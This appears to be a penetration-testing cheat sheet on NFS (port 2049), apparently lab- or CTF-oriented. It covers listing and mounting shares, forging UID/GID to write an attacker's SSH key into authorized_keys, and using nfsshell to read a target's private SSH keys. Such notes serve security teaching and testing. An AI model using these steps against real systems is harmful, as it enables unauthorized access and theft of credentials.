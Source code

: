 ```yaml
---
description: >-
  NFS security is partially based on the remote user mounting the filesystem
  having the same UID (User ID) and GID (Group ID) as the owner of that share.
---
```


# 2049 - NFS

We can find a NFS share if we query port 111 \(RPC\)

NFS security is partially based on the remote user mounting the filesystem having the same UID \(User ID\) and GID \(Group ID\) as the owner of that share. Restrictions can also be placed into the **/etc/hosts.allow** and **/etc/hosts.deny** files, but we won’t go into that here. Suffice to say, using the UID and GID as a basis for security isn’t the best way of doing it.

### Show shares:

`showmount -e {IP Address}` 

### Mount a share:

* Don't forget to create the share you mounting to \(/mnt/nfs\)...

`mount {IP Address}:/vol/share /mnt/nfs -nolock nfsserver=3` 

Example:

`root@kali:~# mount -t nfs 192.168.0.42:/var/nfs /mnt/test1 -o nolock` 

\*Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you remove password it will prompt on the CLI \(more secure as it wont end up in bash\_history\) 

**Using username and password:** 

`mount -t cifs -o ro,domain=[domain],username=[username],password=[password],sec=ntlmv2 //hostnameOrIP/Share /path/to/localdir` 

Example: 

`mount -t cifs nfsserver=3 -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs` 

### Unmount

`root@kali:~# umount -f -l /mnt/test1` 

### UID/GID Manipulation 

Can use nfsshell or use bash 

Add new user with the following commands: 

```text
groupadd --gid 1005 peter 
adduser peter --uid 101 --gid 1005
```

Now we can create ssh keys \(ssh-keygen\) and able copy the ssh key to the nfs share: 

`cat ~/.ssh/id_rsa.pub >> /mnt/peter/.ssh/authorized_keys` 

### Nfsshell 

Link: [https://github.com/NetDirect/nfsshell](https://github.com/NetDirect/nfsshell) or [nfsshell](../../tools/nfsshell.md)

Nfsshell is useful for accessing NFS shares without having to create users with the same UID/GID pair as the target exported filesystem 

**Example**: 

```text
root@kali:/opt/nfsshell# ./nfsshell  
nfs> host 192.168.0.45 
Using a privileged port (1021) 
Open 192.168.0.45 (192.168.0.45) TCP 
nfs> export 
Export list for 192.168.0.45: 
/home/karl               *  
nfs> mount /home/karl 
Using a privileged port (1020) 
Mount `/home/karl', TCP, transfer size 65536 bytes. 
nfs> ls -l 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  . 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .. 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .bash_history 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .bash_logout 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .bashrc 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .lesshst 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .profile 
drwxr-xr-x  3     1001  1001      4096  Mar  5  2019  .ssh 
nfs> cd .ssh 
nfs> ls 
Readdir failed: Permission denied 
nfs> uid 1001 
nfs> gid 1001 
nfs> ls 
. 
.. 
authorized_keys 
id_rsa 
id_rsa.pub 
user.txt 
nfs>  
```

\`\`

